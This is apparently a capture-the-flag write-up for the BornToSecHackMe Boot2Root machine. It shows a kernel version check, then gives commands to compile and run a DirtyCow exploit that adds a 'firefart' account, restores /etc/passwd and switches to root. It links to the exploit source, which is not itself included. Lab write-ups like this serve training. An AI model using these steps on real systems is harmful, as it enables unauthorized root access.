 # Boot2Root -- VacheQuiPue

Starting from `Step 5 - Sanitize`

## Step 5 - Identification
Once we are on the server, we search for potential ways to become root.
After some ID and tests we see that the kernel is vulnerable to the DirtyCow exploit
```
> uname -ra
Linux BornToSecHackMe 3.2.0-91-generic-pae #129-Ubuntu SMP Wed Sep 9 11:27:47 UTC 2015 i686 i686 i386 GNU/Linux
```
The exploit exists on Linux Kernel <= 3.19.0-73.8

## Step 6 - VacheQuiPue
We copy the code from `scripts/dirty.c` on the server, compile it and run it:
```
gcc -pthread dirty.c -o dirty -lcrypt
./dirty cpt
```

We wait a little bit, connect as `firefart`, restore the originial `passwd` file and login as root:
```
su firefart
mdp: cpt
mv /tmp/passwd.bak /etc/passwd
su root
```

[polka cow](../figs/polka.gif)
## Sources:
Privilege escalation reference: https://book.hacktricks.xyz/linux-hardening/privilege-escalation
DirtyCow Exploit: https://github.com/evait-security/ClickNRoot/blob/master/1/exploit.c
DirtyCow Explanation: https://github.com/thaddeuspearson/Understanding_DirtyCOW